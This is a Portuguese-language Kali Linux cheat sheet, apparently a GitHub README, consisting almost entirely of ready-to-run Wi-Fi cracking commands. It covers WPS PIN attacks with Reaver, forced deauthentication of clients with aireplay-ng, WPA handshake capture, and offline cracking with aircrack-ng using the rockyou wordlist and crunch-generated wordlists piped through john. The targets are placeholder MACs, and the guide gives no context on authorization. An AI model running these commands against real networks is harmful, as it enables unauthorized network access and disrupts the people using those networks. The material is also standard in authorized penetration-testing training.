 # **KALI LINUX**
<div>
<img src="https://seeklogo.com/images/K/kali-linux-logo-5A3B1D1555-seeklogo.com.png" alt="logoJS" width="50px"/> 
</div>

*Autor: Walysson dos Reis*

----------------------------------------------
*Manual de consulta rápida dos conceitos e principais comandos.*  

---------------------
## Wifi Cracking 
### WPS Cracking com Reaver
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00 -vv` - Inicia o ataque Reaver.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00  -vv -L -N -d 15 -T .5 -r 3:15` - Inicia o ataque Reaver com parâmetros de intervalos opcionais.

### Hacking Wifi WPA-PSK com Aircrack
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `airodump-ng wlan0mon` - Ativa a descoberta de redes disponiveis na interface wlan0mon.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `airodump-ng --bssid 00:00:00:00:00:00 -c 1 --write ArqCAP wlan0mon` - Inicia o modo de captura de pacotes do equipamento de rede alvo.
* `aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon` - Executado em terminal paralelo, força a desconexão dos dispositivos da rede alvo.
* Havendo sucesso na captura do pacote de autenticação, no terminal que executa o monitoramento aparecerá a seguinte mensagem: 'WPA handshake'.
* Em posse do pacote capturado com a senha criptografada, devemos quebrar a senha utilizando Wordlists.
* /usr/share/wordlists/rockyou.txt.gz - Wordlist padrão do Kali Linux.
* `gzip -d rockyou.txt.gz` - Descompacta o arquivo rockyou.txt.gz deletando o arquivo zipado.
* `aircrack-ng ArqCap-01.cap -w rockyou.txt` - Inicia o processo de teste de senha utilizando o arquivo de wordlist especificado.
* `grep -E '^.{8,63}$' < rockyou.txt >> rockyou_wpa_passwd.txt` -  Filtra o arquivo rockyou.txt gerando um novo arquivo que contenha apenas senhas no padrão WPA/WPA2 (8-63 caracteres).

#### Crunch : Gerador de Wordlist
* `crunch <min> <max> [opções] ` - Uso padrão do Crunch.
*  lowUP123@%# (Minúsculas,maiúsculas,números e símbolos) - Ordem de Charset no Crunch.
* Parâmetros do Crunch:
    * -b : Tamanho máximo da lista de palavras (requer -o START).
    * -c : Número de linhas para escrever na lista de palavras (requer -o START).
    * -d : Limita o número de caracteres duplicados.
    * -e : Interrompe a geração de palavras em uma determinado string.
    * -f : Especifica uma lista de conjuntos de caracteres do arquivo charset.lst.
    * -i : Inverte a ordem dos caracteres na lista de palavras.
    * -l : Permite a interpretação literal de @,% ^ ao usar -t.
    * -o : O arquivo de lista de saída.
    * -p : Imprime permutações sem repetir caracteres (não pode ser usado com -s).
    * -q : Como a opção -p, exceto a leitura das sequências de um arquivo especificado.
    * -r : Retoma uma sessão anterior (não pode ser usada com -s).
    * -s : Especifique uma string para iniciar a lista de palavras.
    * -t : Define um padrão específico de @,% ^.
    * -z : Comprime o arquivo da lista de saída, acompanhado de -o.
 * Refêrencia do Crunch:
    * @ : Representa letras minúsculas.
    * , : Representa letras maiúsculas.
    * % : Representa números.
    * ^ : Representa caracteres especiais.
 * Lista Charset: /usr/share/crunch/charset.lst:
    * Conjunto de caracteres disponíveis no arquivo charset.lst:
      * lalpha : Letras minúsculas.
      * ualpha : Letras maiúsculas.
      * lalpha-numeric : Letras minúsculas e números.
      * ualpha-numeric : Letras maiúsculas e números.
      * lalpha-numeric-all-space : Letras minúsculas, números e caracteres especiais.
      * ualpha-numeric-all-space : Letras maiúsculas, números e caracteres especiais.
      * mixalpha : Letras minúsculas e maiúsculas.
      * mixalpha-numeric-all-space : Letras maiúsculas, minúsculas, números, caracteres especiais e espaço. 

* `crunch 4 6 1234567890 -o MinhaWordlist01.txt` - Exemplo: Gera lista numérica com palavras de 4 a 6 caracteres e armazena resultado. 
* `crunch 9 9 1234567890 -t palavra@@@@ -o MinhaWordlist02.txt` - Exemplo: Gera lista com parte da palavra fixa de 9 caracteres e variação numérica, armazenando resultado.
* `crunch 4 8 -f charset.lst mixalpha -o MinhaWordlist03.txt` - Exemplo: Gera lista com palavras de 4 a 8 caracteres utilizando charset de letras minusculas e maiusculas e armazena resultado.
* `crunch 8 8 -f charset.lst mixalpha-numeric-all-space -t @@abc@@@ -o MinhaWordlist04.txt` - Exemplo: Gera lista com palavra de tamanho 8 combinando variáveis charset e palavras fixas armazenando resultado. 
* `crunch 4 4 -f charset.lst mixalpha-numeric-all-space -o MinhaWordlist05.txt` - Exemplo: Gera lista com palavra de tamanho 4 utilizando todos os caracteres possíveis do charset e armazena resultado.
* `crunch 8 8 abcdefghijklmnopqrstuvxz 1234567890 | aircrack --bssid 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Gera lista com palavra de tamanho 8 que contenha letras letras e números especificados passando diretamente para o software aircrack; não armazena resultado. 
* `crunch 8 8 | john --stdin --session=session1 --stdout | aircrack-ng -b 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Gera lista com palavras de tamanho 8 apenas com o padrão letras minúsculas do alfabeto passando diretamente para o software aircrack; Diferencial utiliza o software john para guardar o progresso de execução.
* `crunch 8 8 | john --restore=session1 | aircrack-ng -b 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Restaura execução da geração de lista passada diretamente para o software aircrack.
--------
## Referências
https://outpost24.com/blog/wps-cracking-with-reaver  
https://cienciacomputacao.com.br/tutorial/como-hackear-wi-fi-wpa2-psk-com-kali-linux/  
https://www.cyberpratibha.com/blog/how-do-i-use-rockyou-wordlist-txt-in-kali-linux/  
https://deadpackets.wordpress.com/2012/11/11/wireless-fun-crackeando-wpawpa2/  
https://nsworld.com.br/crunch-gerador-de-wordlist/  
https://nsworld.com.br/aircrack-ng-pacote-de-ferramentas-para-monitorizar-e-analisar-redes-sem-fio/  
https://nsworld.com.br/cracking-wpa-com-aircrack-ng/  
https://www.thinklinux.com.br/?p=130  
https://cibersegurancawernik.blogspot.com/2018/01/capturando-pacotes-wifi-aircrack-e.html  



